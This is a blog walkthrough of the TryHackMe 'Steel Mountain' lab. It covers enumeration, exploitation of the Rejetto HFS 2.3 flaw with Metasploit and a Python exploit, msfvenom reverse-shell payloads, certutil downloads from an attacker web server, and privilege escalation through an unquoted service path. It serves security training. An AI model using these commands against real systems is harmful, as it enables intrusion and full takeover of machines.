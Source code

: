 ```yaml
---
title: "TryHackMe - Steel Mountain - Walkthrough"
date: 2020-11-25T08:34:30-04:00
categories:
  - blog
tags:
  - learning
  - steelmountain
  - tryhackme
  - walkthrough
---
```


This is a [TryHackMe][tryhackme] walkthrough for the room: [Steel Mountain][sm]. Deploy the machine and let’s get started!

# Enumeration
Start with our friend, nmap: `nmap -T4 -A -p- 10.10.89.192`

![sm1](/assets/images/thm/steelmountain/sm1.png)

We get some good info here. We can see there is a website on port 80, also some other interesting ports. Let’s take a look at port 80 first!

![sm2](/assets/images/thm/steelmountain/sm2.webp)

Hmm…not much here. Viewing the page source gives us our first answer though!

![sm3](/assets/images/thm/steelmountain/sm3.png)

Let’s take a look at the other webserver (Second answer). For the third answer, take a look at the **Server Information**.

For the next answer, give Google a shot. [Exploit-DB][exdb] is always a good resource!

# Exploit
According to the next question, we need to use Metasploit: `msfconsole`

```bash
search rejetto 2.3
use 0
info
```
![sm4](/assets/images/thm/steelmountain/sm4.png)

This definitely looks like what we are looking for! Now we need to set the options:

```bash
options
set rhosts 10.10.89.192
set rhosts rport 8080
set lhost tun0
options
```

I think that’s all we need: `run`

We have a shell! Let’s look for the user flag.

```bash
getuid
shell
cd C:\Users\bill
dir Desktop
type Desktop\user.txt
```
We found our `user.txt` flag!

![sm5](/assets/images/thm/steelmountain/sm5.png)

Next, let’s download the provided PowerShell script: PowerUp

Just like the room tells us, let’s upload the script: `upload <path>/powerup.ps1`

Continue to follow the room instructions:

```powershell
load powershell
powershell_shell
. .\powerup.ps1
Invoke-AllChecks
```

Pay attention to all the checks being populated. There are some that have:
- `CanRestart: True`
- `Check: Unquoted Service Paths`

The ServiceName that belongs to those is our next answer!

Let’s create our payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Exit out of the PowerShell session CTRL + C and then upload the payload: `Advanced.exe`

Now let’s stop the service and copy the file into the correct directory:

`sc stop <name of service>`

`copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Overwrite the current file. Now we need to setup a listener on our local machine so the payload has something to connect the reverse shell to!

`nc -nvlp 4443`

Start the service: `sc start <name of service>`

Go look at your `netcat` terminal and you should have a shell! Find the root flag.

![sm6](/assets/images/thm/steelmountain/sm6.png)

# Manual Exploitation
Now, we aren’t done with the room, but if this were real-world we have full system access and have complete control of the machine. I like how this room includes a manual exploitation section (good to learn for the OSCP) which is super useful!

We are provided with an exploit. So let’s keep going!

Create/copy the following files on your local machine:
- `exploit.py`
- `nc.exe`
- `winPEAS.exe`

Here are the links to download:
- [Exploit][rejetto]
- [nc listener][nc] (rename to `nc.exe` if it isn’t already)
- [winPEAS.exe][winpeas] (rename to `winPEAS.exe` if it isn’t already)
**NOTE:** Downloading winPEAS may get flagged by the browser. Make sure to accept any warning about a malicious file.

Now open 3 terminal windows:
1. Python Web Server
2. Netcat listener
3. run exploit

Edit the exploit to add our machine IP and port

![sm7](/assets/images/thm/steelmountain/sm7.png)

In the Python webserver run: `python3 -m http.server 80`

In the netcat listener terminal run: `nc -nvlp 1234`

In the exploit terminal run: `python exploit.py 10.10.89.192 8080` (run this twice)

You should now have a shell!

Navigate to `C:\Users\Bill\Desktop` and pull `winPEAS.exe` to the server

`certutil -urlcache -f http://<THM VPN IP>/winPEAS.exe winPEAS.exe`

Now that we have that on the server, we can run it by simply doing: `winPEAS.exe` which provides us with unquoted paths and the ServiceName.

Utilize Google to find out the last question: `powershell -c <command>`

Now the next steps to get system is the same as before:

1. Configure an `msfvenom` payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
2. Utilize `certutil` to get the payload onto the server
3. Stop the service
4. Start a new `netcat` listener
5. Start the service
6. You should now be `NT AUTHORITY\SYSTEM`

# Review
This was a really well done room. It was a “walkthrough” but didn’t give you everything. It is a good in-between for someone who is doing well in walkthroughs but gets stuck on CTF type rooms.

Steel Mountain provided a good overall review of enumeration, privilege escalation, and exploitation. My favorite part was that it covered metasploit exploitation and manual exploitation!

References
[TryHackMe][tryhackme] | [Steel Mountain Room][sm] | [Exploit-DB][exdb] | [Rejetto Exploit][rejetto] | [nc listener][nc] | [winPEAS Download][winpeas]

[tryhackme]: https://tryhackme.com
[sm]: https://tryhackme.com/why-subscribe?roomCode=steelmountain
[exdb]: https://www.exploit-db.com
[rejetto]: https://www.exploit-db.com/exploits/39161
[nc]: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master
